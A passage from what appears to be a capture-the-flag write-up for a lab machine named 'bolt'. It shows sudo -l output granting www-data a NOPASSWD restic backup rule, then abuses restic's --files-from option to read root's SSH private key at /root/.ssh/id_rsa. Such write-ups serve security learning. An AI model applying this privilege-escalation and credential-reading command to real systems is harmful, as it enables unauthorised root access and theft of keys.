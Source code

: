 So we got a shell with user `www-data`. Looking at the permission we a sudo access: 

```
sudo -l
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*

```

We can there run `restic` as root. This software allows to do backups. https://restic.readthedocs.io/en/stable/030_preparing_a_new_repo.html#rest-server Looking at the docs, we see that by adding the `--files-from`, we may read from a file we would want to back up. We can therefore look at the `id_rsa` key that would be in `/root/.ssh/` if it exists.

```
sudo /usr/bin/restic backup -r rest* --files-from /root/.ssh/id_rsa
```

![image-20200402234220197](img/image-20200402234220197.png)

